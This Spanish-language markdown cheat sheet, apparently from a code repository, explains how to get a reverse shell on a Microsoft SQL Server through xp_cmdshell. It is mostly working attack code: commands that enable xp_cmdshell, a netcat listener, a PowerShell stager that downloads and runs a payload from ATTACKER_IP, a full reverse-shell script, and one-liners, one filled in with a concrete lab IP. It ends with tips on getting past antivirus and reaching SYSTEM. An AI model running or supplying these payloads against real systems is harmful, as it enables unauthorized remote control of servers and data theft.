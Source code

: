 ## Reverse shell vía xp_cmdshell (MSSQL)

### 0) (si hace falta) Habilitar xp_cmdshell
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### 1) Prepara tu listener (atacante)
```bash
nc -lvnp 4444
```

### 2) Método A — PowerShell “stager” (descarga y ejecuta payload)
- Sirve un archivo con tu payload (ej: rev.ps1) usando un servidor web simple en tu máquina atacante.
- Desde MSSQL con xp_cmdshell ejecutas un comando PowerShell que descargue y ejecute ese archivo.
```sql
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/rev.ps1''))"';

```
Ejemplo rev.ps1:
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4444);
$stream = $client.GetStream();[byte[]]$b=0..65535|%{0};
while(($i=$stream.Read($b,0,$b.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);
  $s=(iex $d 2>&1 | Out-String)+"PS "+(pwd).Path+"> ";
  $stream.Write(([Text.Encoding]::ASCII).GetBytes($s),0,$s.Length);$stream.Flush()
}

```
### 3) Método B — PowerShell “one-liner” (sin archivos)
- Usa un único comando PowerShell que establezca conexión directa a tu listener.
- Ideal si no quieres subir archivos al sistema víctima.

```powershell
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient(''ATTACKER_IP'',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$o=(iex $d 2>&1 | Out-String);$o=$o+''PS ''+(pwd).Path+''> ''; $s.Write(([Text.Encoding]::ASCII).GetBytes($o),0,$o.Length);$s.Flush()}"';

```

Ejemplo que funciona:
```powershell
EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Command "$c=New-Object Net.Sockets.TCPClient(''10.10.14.153'',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$o=(iex $d 2>&1 | Out-String);$o=$o+''PS ''+(pwd).Path+''> ''; $s.Write(([Text.Encoding]::ASCII).GetBytes($o),0,$o.Length);$s.Flush()}"';

```

### 4) Método C — certutil + nc.exe
- Descarga `nc.exe` en la máquina víctima con `certutil`.
- Ejecuta nc.exe con parámetros para conectarse a tu listener y lanzar cmd.exe.

## Notas rápidas
- Cambia la IP del atacante y el puerto según tu entorno.
- Si hay restricciones, prueba otras utilidades de Windows como `bitsadmin`, `Invoke-WebRequest` o `curl.exe`.
- Verifica la conectividad de salida (firewall) y posibles bloqueos por antivirus/EDR.
- Ejecuta `whoami` con xp_cmdshell para confirmar con qué usuario estás corriendo (lo ideal es `NT AUTHORITY\SYSTEM`).
